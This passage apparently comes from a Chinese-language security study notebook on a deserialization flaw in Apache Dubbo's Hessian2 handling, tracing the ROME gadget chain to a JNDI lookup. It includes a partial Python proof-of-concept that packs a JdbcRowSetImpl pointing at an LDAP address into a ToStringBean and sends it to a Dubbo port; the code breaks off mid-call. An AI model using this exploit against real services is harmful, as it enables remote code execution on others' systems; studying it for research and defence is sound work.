 ![image-20230414200155693](../.gitbook/assets/image-20230414200155693.png)

`decode argument`之后才`setArguments`，见下面调用栈

![image-20230414195245992](../.gitbook/assets/image-20230414195245992.png)

接下来就是`ROME`利用链的核心了

`toStringBean#toString`->`getter` -> `JdbcRowSetImpl#getDatabaseMetaData` -> `InitialContext#lookup `

忘了的话回去看看。

POC：

```python
# pip install dubbo-py
from dubbo.codec.hessian2 import Decoder, new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl = new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource="ldap://127.0.0.1:8099/aaa",
    strMatchColumns=["foo"]
)
JdbcRowSetImplClass = new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
)
toStringBean = new_object(
    'com.rometools.rome.feed.impl.ToStringBean',
    beanClass=JdbcRowSetImplClass,
    obj=JdbcRowSetImpl
)

resp = client.send_request_and_return_response(
```